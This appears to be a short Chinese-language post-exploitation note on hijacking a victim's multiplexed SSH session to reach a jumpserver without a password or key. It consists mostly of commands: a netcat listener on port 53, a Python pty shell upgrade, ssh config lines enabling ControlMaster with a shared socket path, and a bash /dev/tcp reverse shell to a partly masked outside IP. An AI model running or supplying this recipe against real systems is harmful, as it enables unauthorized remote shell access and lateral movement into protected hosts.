 ```yaml
---
title: 如何利用ssh-session会话实现免密免key登录jumpserver及利用
encrypt: true
enc_pwd: askding
categories:
  - Kali
  - PostExploit
date: 2022-01-18 13:08:49
top:
tags:
layout:
---
```

编写进度
- [x] 


# SSH Session复制,实现免密码登录

![](https://raw.githubusercontent.com/crkmythical/PicGo/main/images/20220118125844.png)


## 在evil执行如下操作
###  监听53端口
```bash
nc -lvp 53
```
### 待 shell反弹后生成完全交互shell
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

### 3-登录jumpserver
```bash
ssh jumpserver
```


## 本地机器victim操作
### 0-在本地机器 `./ssh/config`文件中添加如下字段
```bash
Host *  
ControlMaster auto  
ControlPath /tmp/ssh-%r@%h
```

### 1-登录jumpserver
```bash
ssh jumpserver
```

### 2-执行反弹shell
```bash
bash -c '0<&23-;exec 23<>/dev/tcp/101.1x2.34.104/53;sh <&23 >&23 2>&23'
```


